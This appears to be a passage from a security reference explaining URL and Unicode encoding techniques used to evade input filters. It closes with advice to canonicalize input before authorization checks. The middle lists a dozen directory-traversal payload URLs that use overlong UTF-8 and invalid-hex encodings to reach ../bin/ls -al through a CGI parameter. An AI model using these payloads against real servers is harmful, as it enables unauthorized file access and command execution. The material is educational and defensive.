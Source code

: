 **In the raw**. That is, without URL encoding at all. This usually
results in sending non-ASCII octets in the path, query or body, which
violates the HTTP standards. Nevertheless, most HTTP servers do get
along just fine with non-ASCII characters.

**Valid URL encoding**. Each non-ASCII character (more precisely, all
characters that require URL encoding - a superset of non ASCII
characters) is URL-encoded. This results in sending, say, %C0%AE.

**Invalid URL encoding**. This is a variant of valid URL encoding,
wherein some hexadecimal digits are replaced with non-hexadecimal
digits, yet the result is still interpreted as identical to the
original, under some decoding algorithms. For example, %C0 is
interpreted as character number ('C'-'A'+10)\*16+('0'-'0') = 192.
Applying the same algorithm to %M0 yields ('M'-'A'+10)\*16+('0'-'0') =
448, which, when forced into a single byte, yields (8 least significant
bits) 192, just like the original. So, if the algorithm is willing to
accept non-hexadecimal digits (such as 'M'), then it is possible to have
variants for %C0 such as %M0 and %BG.

It should be kept in mind that these techniques are not directly related
to Unicode, and they can be used in non-Unicode attacks as well.

<http://www.example.com/cgi-bin/bad.cgi?foo=>../../bin/ls%20-al

URL Encoding of the example attack:

<http://www.example.com/cgi-bin/bad.cgi?foo=>..%2F../bin/ls%20-al

Unicode encoding of the example attack:

<http://www.example.com/cgi-bin/bad.cgi?foo=>..%c0%af../bin/ls%20-al

<http://www.example.com/cgi-bin/bad.cgi?foo=>..%c1%9c../bin/ls%20-al

<http://www.example.com/cgi-bin/bad.cgi?foo=>..%c1%pc../bin/ls%20-al

<http://www.example.com/cgi-bin/bad.cgi?foo=>..%c0%9v../bin/ls%20-al

<http://www.example.com/cgi-bin/bad.cgi?foo=>..%c0%qf../bin/ls%20-al

<http://www.example.com/cgi-bin/bad.cgi?foo=>..%c1%8s../bin/ls%20-al

<http://www.example.com/cgi-bin/bad.cgi?foo=>..%c1%1c../bin/ls%20-al

<http://www.example.com/cgi-bin/bad.cgi?foo=>..%c1%9c../bin/ls%20-al

<http://www.example.com/cgi-bin/bad.cgi?foo=>..%c1%af../bin/ls%20-al

<http://www.example.com/cgi-bin/bad.cgi?foo=>..%e0%80%af../bin/ls%20-al

<http://www.example.com/cgi-bin/bad.cgi?foo=>..%f0%80%80%af../bin/ls%20-al

<http://www.example.com/cgi-bin/bad.cgi?foo=>..%f8%80%80%80%af../bin/ls%20-al

### How to protect yourself

A suitable canonical form should be chosen and all user input
canonicalized into that form before any authorization decisions are
performed. Security checks should be carried out after UTF-8 decoding is
completed. Moreover, it is recommended to check that the UTF-8 encoding
is a valid canonical encoding for the symbol it represents.
